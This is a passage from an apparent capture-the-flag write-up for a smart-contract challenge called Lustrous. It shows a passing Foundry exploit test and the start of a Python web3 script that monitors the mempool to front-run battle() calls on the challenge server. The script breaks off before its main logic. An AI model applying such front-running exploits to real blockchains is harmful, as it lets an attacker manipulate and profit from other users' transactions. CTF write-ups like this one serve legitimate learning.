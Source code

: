 ```
Ran 1 test for src/test/Lustrous.t.sol:lustrousTest
[PASS] testRun() (gas: 4237525)
Logs:
  stage : 0
  stage : 2
  isSolved: true

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.29s (43.35ms CPU time)

Ran 1 test suite in 4.29s (4.29s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

---

So we can just exploit the remote instance and get flag

I wrote a python script to monitor the mempool and frontrun transactions calling battle() to get our ideal result (win/lose/draw) :

```python
from web3 import Web3, HTTPProvider
from web3.middleware import geth_poa_middleware
from threading import Thread
from eth_account import Account
import sys

if len(sys.argv) != 2:
	print("wrong argument")
	exit()


arg = sys.argv[1]
if arg == "win":
	choice = 1
elif arg == "lose":
	choice = 2
elif arg == "draw":
	choice = 0


# uuid = '3990522a-216d-4f04-aaf5-97cd3f7542fb'
# web3 = Web3(HTTPProvider(f'http://localhost:8545/{uuid}'))
uuid = 'a62ad90c-16a3-4dd5-bb57-8cd018bdb98a'
web3 = Web3(HTTPProvider(f'http://lustrous.chal.hitconctf.com:8545/{uuid}'))

web3.middleware_onion.inject(geth_poa_middleware, layer=0) 

pending_filter = web3.eth.filter('pending')

done = False


exploitAddress = '0x095F62FaE3CEc65e31324b0713232A983Cc1cE24'
```